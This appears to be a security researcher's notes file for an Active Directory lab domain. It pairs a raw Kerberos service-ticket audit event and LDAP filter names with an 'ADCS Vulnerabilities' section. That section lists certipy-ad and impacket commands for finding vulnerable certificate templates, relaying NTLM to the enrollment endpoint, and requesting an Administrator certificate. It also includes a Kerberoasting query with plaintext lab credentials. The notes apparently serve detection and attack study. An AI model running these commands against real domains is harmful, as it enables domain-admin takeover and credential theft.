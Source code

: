 ```
{"win":{"system":{"providerName":"Microsoft-Windows-Security-Auditing","providerGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","eventID":"4769","version":"1","level":"0","task":"14337","opcode":"0","keywords":"0x8020000000000000","systemTime":"2024-07-30T17:06:03.8684490Z","eventRecordID":"200090","processID":"656","threadID":"2316","channel":"Security","computer":"enterprise-dc.enterprise.local","severityValue":"AUDIT_SUCCESS","message":"\"A Kerberos service ticket was requested.\r\n\r\nAccount Information:\r\n\tAccount Name:\t\tAdministrator@ENTERPRISE.LOCAL\r\n\tAccount Domain:\t\tENTERPRISE.LOCAL\r\n\tLogon GUID:\t\t{1e786170-4bdb-896a-c0dc-1b56bc6ae3f7}\r\n\r\nService Information:\r\n\tService Name:\t\tENTERPRISE-DC$\r\n\tService ID:\t\tS-1-5-21-3294798438-2719725478-2944407717-1002\r\n\r\nNetwork Information:\r\n\tClient Address:\t\t::ffff:10.0.0.16\r\n\tClient Port:\t\t54539\r\n\r\nAdditional Information:\r\n\tTicket Options:\t\t0x40800000\r\n\tTicket Encryption Type:\t0x12\r\n\tFailure Code:\t\t0x0\r\n\tTransited Services:\t-\r\n\r\nTicket information\r\n\tRequest ticket hash:\t\tyh4SdtMr0LgEsYRqdGN7lfvskquFhB4OjAVucTC/lyo=\r\n\tResponse ticket hash:\t\t3z/uBdTPbvXhG+TPAQdtn8Jnim4G79KPYlkrdBuEkT8=\r\n\r\nThis event is generated every time access is requested to a resource such as a computer or a Windows service.  The service name indicates the resource to which access was requested.\r\n\r\nThis event can be correlated with Windows logon events by comparing the Logon GUID fields in each event.  The logon event occurs on the machine that was accessed, which is often a different machine than the domain controller which issued the service ticket.\r\n\r\nTicket options, encryption types, and failure codes are defined in RFC 4120.\""},"eventdata":{"targetUserName":"Administrator@ENTERPRISE.LOCAL","targetDomainName":"ENTERPRISE.LOCAL","serviceName":"ENTERPRISE-DC$","serviceSid":"S-1-5-21-3294798438-2719725478-2944407717-1002","ticketOptions":"0x40800000","ticketEncryptionType":"0x12","ipAddress":"::ffff:10.0.0.16","ipPort":"54539","status":"0x0","logonGuid":"{1e786170-4bdb-896a-c0dc-1b56bc6ae3f7}","requestTicketHash":"yh4SdtMr0LgEsYRqdGN7lfvskquFhB4OjAVucTC/lyo=","responseTicketHash":"3z/uBdTPbvXhG+TPAQdtn8Jnim4G79KPYlkrdBuEkT8="}}}
```

### Filter LDAP Queries

```
Internal
KCC
LSA
NTDSAPI
SAM
```

TODO Reverse event order -> get added to logfile descending

## ADCS Vulnerabilities

```
proxychains certipy-ad find -dc-ip 10.0.0.111 -ns 10.0.0.111 -dns-tcp -u user1@enterprise.local -p P@ssw0rd -vulnerable -stdout
sudo impacket-ntlmrelayx -t http://enterprise-dc.enterprise.local/certsrv/certfnsh.asp --adcs -smb2support
proxychains certipy-ad find -dc-ip 10.0.0.111 -ns 10.0.0.111 -dns-tcp -u user1@enterprise.local -p P@ssw0rd -vulnerable -stdout
proxychains certipy-ad req -dc-ip 10.0.0.111 -ns 10.0.0.111 -dns-tcp -u user1@enterprise.local -p P@ssw0rd -upn Administrator@enterprise.local -template ENTERPRISE-SmartCard -ca enterprise-ENTERPRISE-DC-CA
proxychains certipy-ad auth -dc-ip 10.0.0.111 -pfx administrator.pfx
proxychains impacket-GetUserSPNs -dc-ip 10.0.0.111 'enterprise.local/user1:P@ssw0rd'
```
